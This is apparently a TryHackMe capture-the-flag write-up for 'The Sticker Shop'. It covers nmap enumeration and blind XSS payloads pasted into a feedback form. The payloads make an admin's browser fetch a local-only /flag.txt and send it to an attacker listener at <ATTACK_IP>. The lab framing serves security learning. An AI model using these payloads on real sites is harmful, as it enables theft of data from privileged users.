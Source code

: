 # 📝 Writeup – The Sticker Shop (TryHackMe)

---

## TL;DR (so you don’t have to scroll)
Found a blind XSS in the feedback form. Pushed a tiny JS payload that runs in the admin’s browser, reads `/flag.txt` (local-only), and exfiltrates it back to my webserver. Decode the URI and boom — flag. Easy, obnoxious, effective.

---

## ENUMERATION
As always: quick port sweep first.

```bash
nmap -p- --min-rate 2000 -vv -T4 <IP>
````

Found open ports: `22`, `8080`. Move to a focused scan:

```bash
nmap -p 22,8080 -sC -sV -vv -oN scan.nmap <IP>
```

![nmap](screenshots/nmap1.png)

Website looked normal. Checked `/flag.txt` (obligatory), but of course it’s not public. HTML source didn’t scream “here’s a vuln” — but forms are sneaky. Always check feedback forms.

---

## PORT 8080 — BLIND XSS

The feedback form probably stores content and later renders it in an admin’s browser. That smells like **blind XSS**: payload runs in a different user’s browser (usually admin) and you only see the result if you have an out-of-band listener.

Idea: make the admin’s browser fetch something only they can access (like `http://127.0.0.1:8080/flag.txt`) and forward it to our server.

Spin up a tiny HTTP server to catch exfil requests:

```bash
# on your attacker machine
python3 -m http.server 80
# or use any other listener you want
```

First, test that blind XSS works by injecting a script tag that loads an external script:

```html
'"><script src="http://<ATTACK_IP>/"></script>
```

If your server gets a hit, the script loaded in admin’s browser — bingo, blind XSS. Screenshot:
![Blind\_XSS](screenshots/blindXSS.png)

To confirm where the payload executes (useful debug), send window.location back:

```html
'"><script>
fetch("http://<ATTACK_IP>/" + window.location)
</script>
```

If that triggers a 404 on your server with the location appended, you’ve confirmed code executes in the admin’s browser (screenshot: ![Location](screenshots/location.png)).

---

## THE REAL PAYLOAD — GET THE FLAG

This payload runs in the admin's context, fetches the local `/flag.txt`, and forwards its contents to your server (URI-encoded so it survives URLs).

```html
'"><script>
fetch("http://127.0.0.1:8080/flag.txt")
  .then(response => response.text())
  .then(data => {
    fetch("http://<ATTACK_IP>/" + encodeURIComponent(data));
  });
</script>
```

Paste that into the feedback form and submit. Wait for your server to receive a GET with the encoded flag. You’ll see something like:

```
GET /FLAG%7Bthis_is_my_encoded_flag%7D HTTP/1.1
```

Screenshot: ![decodeURI](screenshots/decodeURI.png)

Then decode it (any URL decoder — browser devtools, `python -c "import urllib.parse; print(urllib.parse.unquote('FLAG%7B...%7D'))"`, whatever). Ta-da — flag.

---

## WHY THIS WORKS (short & chill)

* The site stores our input then renders it in a privileged user’s browser (admin).
* XSS executes in admin’s origin — the admin can access `127.0.0.1:8080/flag.txt` that we cannot.
* By making admin fetch `/flag.txt` and forward it to our listener, we exfiltrate a local-only file.
* CBC? No — this is just classic blind XSS and same-origin privilege abuse. Simple but effective when the app trusts stored input.

---

## Notes / gotchas

* Use `encodeURIComponent()` so special chars in the flag don’t break the URL.
* If you want prettier exfil: base64 the response before sending, or POST it to reduce URL-length issues. Example (POST version):

```html
'"><script>
fetch("http://127.0.0.1:8080/flag.txt")
  .then(r => r.text())
  .then(d => fetch("http://<ATTACK_IP>/catch", { method: "POST", body: d }));
</script>
```

* Cookie flags, CSP, and modern security headers can block this. When they don’t, you win.

---

## Ethics & disclaimer

Don’t run this on systems you don’t own or have permission to test. This writeup is for learning and labs only. Don’t be that idiot who ruins someone’s server for fun.

---
